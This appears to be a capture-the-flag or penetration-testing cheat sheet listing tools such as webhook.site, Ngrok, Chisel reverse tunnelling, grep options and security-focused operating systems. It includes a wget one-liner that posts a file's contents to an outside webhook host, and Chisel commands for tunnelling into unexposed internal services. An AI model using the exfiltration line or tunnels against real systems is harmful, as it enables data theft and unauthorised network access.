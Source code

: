 # Common tools

## Misc

- https://webhook.site

  - receive remote connections
  - `wget https://webhook.site/[id] --post-data="$(cat flag)"`

- [Ngrok](https://ngrok.com/)
  - reverse proxy, connect localhost and internet
- [Chisel](https://github.com/jpillora/chisel)
  - A fast TCP/UDP tunnel over HTTP
  - example use:
    - server:
      - `./chisel server -p 8001 --reverse`
    - client:
      - `./chisel client 10.10.14.13:8001 R:socks`
      - commonly used inside of docker container to tunnel unexposed service to our local environment
        - use proxy 1080 in local browser to find docker ip 172.17.0.1 directly, or whatever port is required, 172.17.0.1:3000
        - might have to add the ip 172.17.0.1 to /etc/hosts

## Quality of life

- [unf](https://github.com/io12/unf) - UNixize Filename
- [tldr](https://github.com/tldr-pages/tldr)
- [navi](https://github.com/denisidoro/navi)
  - `navi --cheatsh nmap`

## Operating systems

### Linux

- [Kali](https://www.kali.org/)
- [Blackarch](https://blackarch.org/)

- grep
  - `-r`, recursive
  - `-E`, regex
  - `-i`, case insensitive
  - `-v`, invert match, exclude
  - `grep "10.10.10.12" file.log | grep -v "gobuster"`

### Windows

- [Flare VM](https://github.com/mandiant/flare-vm)
- [Commondo VM](https://github.com/mandiant/commando-vm)
